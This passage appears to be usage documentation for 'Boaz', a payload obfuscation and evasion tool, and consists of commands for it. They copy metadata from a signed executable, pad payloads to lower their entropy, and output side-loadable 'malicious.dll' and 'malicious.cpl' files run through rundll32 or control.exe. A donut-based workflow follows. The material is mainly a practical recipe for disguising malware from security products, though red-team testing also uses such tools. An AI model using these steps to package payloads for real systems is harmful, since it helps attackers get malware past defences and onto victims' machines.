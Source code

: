 #### MetaTwin (Clone from file)
```bash
python3 Boaz.py -f payload.exe -o output.exe -s /path/to/signed.exe
```

### Entropy Reduction

#### Null Byte Padding
```bash
python3 Boaz.py -f payload.exe -o output.exe -entropy 1
```
- Pads with null bytes
- Reduces entropy quickly

#### Pokemon Names Padding
```bash
python3 Boaz.py -f payload.exe -o output.exe -entropy 2
```
- Pads with Pokemon names
- More natural-looking entropy

### Output Formats

#### DLL (Side-Loading)
```bash
python3 Boaz.py -f payload.exe -o malicious.dll -dll

# Execute with:
# rundll32.exe malicious.dll,DllMain
```

#### CPL (Control Panel)
```bash
python3 Boaz.py -f payload.exe -o malicious.cpl -cpl

# Execute with:
# control.exe malicious.cpl
```

## Common Workflows

### Workflow 1: Testing Payload Functionality

```bash
# Minimal obfuscation for testing
python3 Boaz.py \
  -f test_payload.exe \
  -o test_output.exe \
  -t donut \
  -l 16 \
  -c mingw
```
